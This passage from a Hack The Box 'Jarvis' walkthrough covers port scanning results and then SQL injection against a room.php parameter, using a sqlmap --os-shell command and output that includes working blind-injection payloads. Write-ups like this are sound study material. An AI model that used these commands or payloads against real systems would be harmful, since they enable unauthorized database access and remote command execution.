 |_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

<p>Alright so looks like two separate web instances and an SSH session. Let's quickly look at the non-standard 64999 port.</p>

<p>
<img src="{{ '/assets/htb-jarvis/initial-64999.PNG' | relative_url }}">
</p>

<p>Well that was rude... Let's hope that the other port looks a bit better. After poking around and getting some inspiration for my next Iron Man based vacation I didn't notice anything too obvious. Checking the various page sources didn't reveal any mystical either so decided to turn on Burpsuite and give the site a quick spider.</p>

<p>
<img src="{{ '/assets/htb-jarvis/burp-spider.PNG' | relative_url }}">
</p>

<h1>User exploitation</h1>

<p>We can see from both manual investigation and through Burp that there is a parameter being passed to <code>room.php</code> as we go through the various rooms. Decided to fire off a sqlmap and see if we get any hits. </p>

{% highlight shell %}
sqlmap -u "http://10.10.10.143/room.php?cod=1" --os-shell
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.3.4#stable}
|_ -| . ["]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[17:11:24] [INFO] testing connection to the target URL
[17:11:24] [INFO] checking if the target is protected by some kind of WAF/IPS
[17:11:24] [INFO] testing if the target URL content is stable
[17:11:25] [INFO] target URL content is stable
[17:11:25] [INFO] testing if GET parameter 'cod' is dynamic
[17:11:25] [INFO] GET parameter 'cod' appears to be dynamic
[17:11:25] [INFO] heuristic (basic) test shows that GET parameter 'cod' might be injectable
...
[17:11:49] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind'
[17:11:59] [INFO] GET parameter 'cod' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable 
...
sqlmap identified the following injection point(s) with a total of 72 HTTP(s) requests:
---
Parameter: cod (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cod=1 AND 6194=6194

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: cod=1 AND SLEEP(5)
---
[17:14:19] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9.0 (stretch)